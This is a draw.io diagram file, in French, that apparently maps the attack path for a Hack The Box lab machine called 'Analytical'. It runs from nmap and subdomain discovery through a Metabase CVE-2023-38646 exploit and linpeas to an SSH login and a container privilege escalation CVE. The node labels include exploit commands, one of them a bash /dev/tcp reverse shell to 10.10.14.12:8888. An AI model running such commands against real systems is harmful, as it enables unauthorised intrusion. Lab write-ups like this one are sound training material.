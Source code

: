 <mxfile version="24.0.4" type="device">
  <diagram name="Page-1" id="QXlU7ppiSV68XWFJfw3V">
    <mxGraphModel dx="1455" dy="616" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="oPWxyFHtdCuirfmGRAih-4" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-1" target="oPWxyFHtdCuirfmGRAih-5">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="420" y="430" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-1" value="10.10.11.233" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="360" y="290" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-6" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-10" target="oPWxyFHtdCuirfmGRAih-7">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="350" y="440" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-9" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-5" target="oPWxyFHtdCuirfmGRAih-8">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-5" value="nmap" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="390" y="380" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-14" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-7" target="oPWxyFHtdCuirfmGRAih-15">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="-10" y="500" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-17" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-7" target="oPWxyFHtdCuirfmGRAih-18">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="10" y="520" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-7" value="http" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-40" y="430" width="80" height="20" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-47" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-8" target="oPWxyFHtdCuirfmGRAih-46">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-8" value="ssh" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="480" y="450" width="80" height="20" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-5" target="oPWxyFHtdCuirfmGRAih-10">
          <mxGeometry relative="1" as="geometry">
            <mxPoint y="430" as="targetPoint" />
            <mxPoint x="390" y="395" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-10" value="entrées dns dans /etc/hosts" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="105" y="380" width="170" height="30" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-26" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-15" target="oPWxyFHtdCuirfmGRAih-28">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="160" y="575" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-15" value="quelles technologies ?&lt;div&gt;site, nuclei, burp, wappanalyser&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="60" y="510" width="200" height="40" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-19" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-18" target="oPWxyFHtdCuirfmGRAih-20">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="-200" y="620" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-18" value="sous-domaines et pages" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-210" y="460" width="90" height="50" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-20" value="analytical.htb" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-350" y="520" width="100" height="20" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-25" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-21" target="oPWxyFHtdCuirfmGRAih-15">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-21" value="data.analytical.htb" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-100" y="520" width="100" height="20" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-22" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.637;entryY=-0.05;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-18" target="oPWxyFHtdCuirfmGRAih-21">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-30" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-31" target="oPWxyFHtdCuirfmGRAih-29">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-36" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-37" target="oPWxyFHtdCuirfmGRAih-33">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-28" value="CVE-2023-38646&lt;br&gt;Metabase (soft public pour de la data analyse)" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="100" y="590" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-29" value="script POC&lt;div&gt;python3 CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb/auth/login --lhost 10.10.14.12 --lport 8888&amp;nbsp;&lt;br&gt;&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="-730" y="610" width="650" height="40" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-32" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-28" target="oPWxyFHtdCuirfmGRAih-31">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="100" y="630" as="sourcePoint" />
            <mxPoint x="-235" y="770" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-31" value="api session" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-40" y="615" width="80" height="30" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-40" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-43" target="oPWxyFHtdCuirfmGRAih-42">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="160" y="940" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-33" value="script exploit&lt;div&gt;python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c &#39;bash -i &amp;gt;&amp;amp; /dev/tcp/10.10.14.12/8888 0&amp;gt;&amp;amp;1&#39;&lt;br&gt;&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-95" y="830" width="510" height="50" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-38" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-28" target="oPWxyFHtdCuirfmGRAih-37">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="160" y="670" as="sourcePoint" />
            <mxPoint x="160" y="830" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-37" value="shell" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="130" y="740" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-45" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-42" target="oPWxyFHtdCuirfmGRAih-8">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-42" value="- container&lt;div&gt;&lt;span style=&quot;background-color: initial;&quot;&gt;- env: user &amp;amp; passwd&lt;/span&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="95" y="970" width="130" height="50" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-44" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-33" target="oPWxyFHtdCuirfmGRAih-43">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="160" y="970" as="targetPoint" />
            <mxPoint x="160" y="880" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-43" value="linpeas.sh" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="130" y="910" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="oPWxyFHtdCuirfmGRAih-46" value="&lt;div&gt;&lt;span style=&quot;text-wrap: nowrap;&quot;&gt;vuln sur containers&lt;/span&gt;&lt;/div&gt;&lt;span style=&quot;text-wrap: nowrap;&quot;&gt;CVE-2023-2640-CVE-2023-32629&lt;/span&gt;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="420" y="550" width="200" height="50" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
